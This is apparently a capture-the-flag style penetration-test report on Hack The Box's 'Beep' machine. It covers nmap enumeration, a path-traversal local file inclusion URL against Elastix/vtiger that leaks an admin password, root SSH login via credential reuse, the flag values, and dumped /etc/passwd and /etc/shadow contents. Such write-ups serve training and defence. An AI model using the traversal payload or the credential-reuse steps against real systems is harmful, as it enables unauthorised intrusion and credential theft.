

# Hack The Box: Beep Report

# Methodologies

I utilized a widely adopted approach to performing penetration testing that is effective in testing how well the Beep machine is secured.
Below is a breakout of how I was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, I was tasked with exploiting the Beep machine.

The specific IP address was:

- 10.10.10.7

## Penetration

The penetration testing portions of the assessment focus heavily on gaining access to a variety of systems.
During this penetration test, I was able to successfully gain access to the Beep machine.

### System IP: 10.10.10.7

#### Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

Server IP Address | Ports Open
------------------|----------------------------------------
10.10.10.7      | **TCP:** 22,25,80,110,111,143,443,878,993,995,3306,4190,4445,4559,5038,10000 \ **UDP:** 10000

**Nmap Scan Results:**

Service Scan:

```bash
nmap -vvv -Pn -p 22,25,80,110,111,143,443,878,993,995,3306,4190,4445,4559,5038,10000 -sC -sV -oN /HTB-boxes/beep/recon/nmap_all_tcp.md 10.10.10.7
```

Output:

```txt
80/tcp    open  http       syn-ack Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to https://beep.htb/
```

Vulnerability Scan:

```bash
nmap -vvv -Pn -p 22,25,80,110,111,143,443,878,993,995,3306,4190,4445,4559,5038,10000 --script vuln -oN /HTB-boxes/beep/recon/nmap_all_vuln.md 10.10.10.7
```

Output:

```txt
...

443/tcp   open  https            syn-ack
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-fileupload-exploiter: 
|   
|_    Couldn't find a file-type field.
| ssl-dh-params: 
|   VULNERABLE:
|   Diffie-Hellman Key Exchange Insufficient Group Strength
|     State: VULNERABLE
|       Transport Layer Security (TLS) services that use Diffie-Hellman groups
|       of insufficient strength, especially those using one of a few commonly
|       shared groups, may be susceptible to passive eavesdropping attacks.
|     Check results:
|       WEAK DH GROUP 1
|             Cipher Suite: TLS_DHE_RSA_WITH_DES_CBC_SHA
|             Modulus Type: Safe prime
|             Modulus Source: mod_ssl 2.2.x/1024-bit MODP group with safe prime modulus
|             Modulus Length: 1024
|             Generator Length: 8
|             Public Key Length: 1024
|     References:
|_      https://weakdh.org
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| ssl-poodle: 
|   VULNERABLE:
|   SSL POODLE information leak
|     State: VULNERABLE
|     IDs:  BID:70574  CVE:CVE-2014-3566
|           The SSL protocol 3.0, as used in OpenSSL through 1.0.1i and other
|           products, uses nondeterministic CBC padding, which makes it easier
|           for man-in-the-middle attackers to obtain cleartext data via a
|           padding-oracle attack, aka the "POODLE" issue.
|     Disclosure date: 2014-10-14
|     Check results:
|       TLS_RSA_WITH_AES_128_CBC_SHA
|     References:
|       https://www.openssl.org/~bodo/ssl-poodle.pdf
|       https://www.imperialviolet.org/2014/10/14/poodle.html
|       https://www.securityfocus.com/bid/70574
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3566
| ssl-ccs-injection: 
|   VULNERABLE:
|   SSL/TLS MITM vulnerability (CCS Injection)
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL before 0.9.8za, 1.0.0 before 1.0.0m, and 1.0.1 before 1.0.1h
|       does not properly restrict processing of ChangeCipherSpec messages,
|       which allows man-in-the-middle attackers to trigger use of a zero
|       length master key in certain OpenSSL-to-OpenSSL communications, and
|       consequently hijack sessions or obtain sensitive information, via
|       a crafted TLS handshake, aka the "CCS Injection" vulnerability.
|           
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0224
|       http://www.openssl.org/news/secadv_20140605.txt
|_      http://www.cvedetails.com/cve/2014-0224
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
| http-trace: TRACE is enabled
| Headers:
| Date: Fri, 18 Mar 2022 23:12:31 GMT
| Server: Apache/2.2.3 (CentOS)
| Connection: close
| Transfer-Encoding: chunked
|_Content-Type: message/http
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.

...

```


\newpage

#### Initial Access

**Vulnerability Exploited:** Local File Inclusion

**Vulnerability Explanation:**

Elastix is prone to a local file-include vulnerability because it fails to properly sanitize user-supplied input. An attacker can exploit this vulnerability to view files and execute local scripts in the context of the web server process. This may aid in further attacks. Elastix 2.2.0 is vulnerable; other versions may also be affected. 

Reference: *https://www.exploit-db.com/exploits/37637*

**Vulnerability Fix:**

Install the latest version of Elastix.

**Severity:** Critical

**Exploit Code:**

While this exploit failed to run initially, we can still use the LFI vulnerability to our advantage.

Viewing the source of the page, we are greeted with a more organized text format, and can see sensitive user credentials.

```txt
view-source:https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```


Notably, we are able to login to the Elastix login panel using the following credentials:

```txt
admin::jEhdIekWmdjE
```

\newpage

#### Privilege Escalation

**Vulnerability Exploited:** Credential Reuse

**Vulnerability Explanation:**

Using the same credentials across multiple services allows an attacker to easily gain access to those services via making simple guesses to what the given credentials are. 

**Vulnerability Fix:**

Do not reuse credentials. I recommend using a password manager. Specifically, KeyPassXC stores your credentials offline, you can easily generate new, strong passwords, and modify levels of encryption you would like to use.

Reference: *https://keepassxc.org/*

**Severity:** Critical

**Exploit Code:**

We can try to ssh to the machine using the same password we found for the admin user for Elastix.

```txt
ssh root@10.10.10.7
```

However we get an error when trying to ssh to the machine:

```txt
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```

We can modify our ssh command to add support for diffie-hellman key encryption:

```bash
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -c aes256-ctr root@10.10.10.7
```

Now we can see that we have a root access shell on the Beep machine.



\newpage

**Local.txt Proof Screenshot**


**Local.txt Contents**

```txt
43b0dc42f81a4ab1efb707a6d7a4f69a
```

\newpage

**Proof Screenshot Here:**


**Proof.txt Contents:**

```txt
963c711ba704b59a2ab5acab43332b81
```

\newpage

## Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

## House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organization's computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After collecting trophies from the Beep machine was completed, I removed all user accounts, passwords, and malicious codes used during the penetration test.
Hack the box should not have to remove any user accounts or services from the system.

# Appendix - Additional Items

## Appendix - Proof and Local Contents:

IP (Hostname) | Local.txt Contents | Proof.txt Contents
--------------|--------------------|-------------------
10.10.10.7   |  43b0dc42f81a4ab1efb707a6d7a4f69a | 963c711ba704b59a2ab5acab43332b81


## Appendix - /etc/passwd contents

```txt
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
distcache:x:94:94:Distcache:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
dbus:x:81:81:System message bus:/:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
mailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
spamfilter:x:500:500::/home/spamfilter:/bin/bash
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
fanis:x:501:501::/home/fanis:/bin/bash
```

## Appendix - /etc/shadow contents

```txt
root:$1$yYjor88z$SOARx58.XEaj14nlX4iRh1:17263:0:99999:7:::
bin:*:17263:0:99999:7:::
daemon:*:17263:0:99999:7:::
adm:*:17263:0:99999:7:::
lp:*:17263:0:99999:7:::
sync:*:17263:0:99999:7:::
shutdown:*:17263:0:99999:7:::
halt:*:17263:0:99999:7:::
mail:*:17263:0:99999:7:::
news:*:17263:0:99999:7:::
uucp:*:17263:0:99999:7:::
operator:*:17263:0:99999:7:::
games:*:17263:0:99999:7:::
gopher:*:17263:0:99999:7:::
ftp:*:17263:0:99999:7:::
nobody:*:17263:0:99999:7:::
mysql:!!:17263:0:99999:7:::
distcache:!!:17263:0:99999:7:::
vcsa:!!:17263:0:99999:7:::
pcap:!!:17263:0:99999:7:::
ntp:!!:17263:0:99999:7:::
cyrus:!!:17263:0:99999:7:::
dbus:!!:17263:0:99999:7:::
apache:!!:17263:0:99999:7:::
mailman:!!:17263:0:99999:7:::
rpc:!!:17263:0:99999:7:::
postfix:!!:17263:0:99999:7:::
asterisk:!!:17263:0:99999:7:::
rpcuser:!!:17263:0:99999:7:::
nfsnobody:!!:17263:0:99999:7:::
sshd:!!:17263:0:99999:7:::
spamfilter:!!:17263:0:99999:7:::
haldaemon:!!:17263:0:99999:7:::
xfs:!!:17263:0:99999:7:::
fanis:$1$pKpD8eOD$haUM/7L7wmQBUWAVzMy3q.:17263:0:99999:7:::
```